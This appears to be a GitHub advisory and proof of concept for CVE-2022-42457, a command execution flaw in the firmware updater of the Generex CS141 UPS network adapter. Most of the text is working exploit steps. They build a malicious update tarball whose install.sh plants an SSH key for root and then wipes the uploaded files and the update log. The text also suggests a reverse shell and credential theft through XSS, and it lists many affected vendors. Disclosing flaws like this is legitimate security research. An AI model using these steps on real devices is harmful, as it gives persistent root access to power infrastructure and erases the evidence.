

# CVE-2022-42457 Generex-CS141-Authenticated-Remote-Command-Execution

## Description:
The device [CS141](https://www.generex.de/products/ups) is an Ethernet Adapter for the control and the management of UPS Facilities. A list of supported UPS Vendors can be found at the bottom.

The Firmware update process allows to execute arbitrary commands. Most of the time, these type of devices are overlooked and never controlled.
Therefore, it is from value to execute commands directly on the underlying Linux.

## Vulnerable versions
At the time of writing, all versions up to the latest version '2.10' are vulnerable. Therefore, no patch is currently available.

## Exploit
The update script located in `/usr/bin/gxserve-update.sh` simply executes the script `ìnstall.sh` inside a gzip compressed tarball as root.
The responsible function is `run_update()` which extracts the script install.sh from a tarball (line 111) and executes it (line 132,133).



Therefore, to execute commands simply create a tarball with a `version` and `install.sh` file which contains your reverse shell or other commands.

The following command creates the update tarball with the install.sh script which will be executed. Please note, the `./` is important and the version number must be greater than the current version.
```
tar cvzf update211.tar.gz ./install.sh version
```
The `version` file should look like
```
version=2.11
```
The `install.sh` may look like
```
#!/bin/sh
# bch8
# Add your rev shell or simply an ssh pub key here
echo -n 'ecdsa-sha2-nistp384 AAAAE2...' >> /root/.ssh/authorized_keys

# Do some cleanup
rm -f /tmp/version
rm -f /var/www/hiawatha/upload/update*.tar.gz
rm -f /tmp/install.sh
echo -n > /var/log/update.log
sync
```


Further more, the client-side application has been done with the EOL Anuglar project, which contains a well known [Prototype Pollution vulnerability](https://security.snyk.io/vuln/SNYK-JS-ANGULAR-534884).
So a possible way to get credentials would be to prepare some XSS. The Authentication is done by the Hiawatha webserver.

## Supported Vendors:
```
 AEG
 PILLER POWER SYSTEMS
 Online
 VERTIV
 Eurotech Sweden (Riello)
 Legrand
 Mansshardt
 Inform
 Generex
 Kess
 Rittal
 Newave CH
 Eaton/Powerware
 Multimatic
 MetaSystem Energy
 Benning
 DRS Pivotal Power
 Errepi
 Borri S.p.A
 General Electric
 DKC Europe
 Roton
 CTA
 Akkutronik
 Newave GER
 UPS Service
 Allnet
 Effekta
 Kaufel
 Jovy Atlas
 ABB
 Nitram
 Astrid
 Kamic
 Inform
 THYCON
 Roline
 Ablerex
 Woehrle
 Fuji Electric
 S2S
 Triathlon
 Elektro-Automatik
 centiel
 ELIT srl
 CPS
 ACCENT MONITORING
 Coromatic
 Predictive Technology Inc.
 British Power Conversion
 Siel
 Alpha
 DFM Select
 SAPOTEC
 Gustav Klein
 apra net
 Leistung
 ELINEX
 AKI Power Systems
 COMPU Power South Africa
 Exponential Power
 Astrid neutral
 Infosec
 E-TEC
 TwinSource
 BACS / LED / SITEMAN
 SNG
 SICOTEC AG
 Eltek
 CET
 Salicru
 NetMinder
 Kohler Power
 International Business Resources
 Enedo
 AdPoS
 EnerSys
 Kess
 ALTERVAC
 GRUENCO
 Staco Energy
 Statron
 BJ Balfour
 POWER-ALL
 Genesys M2M
 AG IT PROJECT
```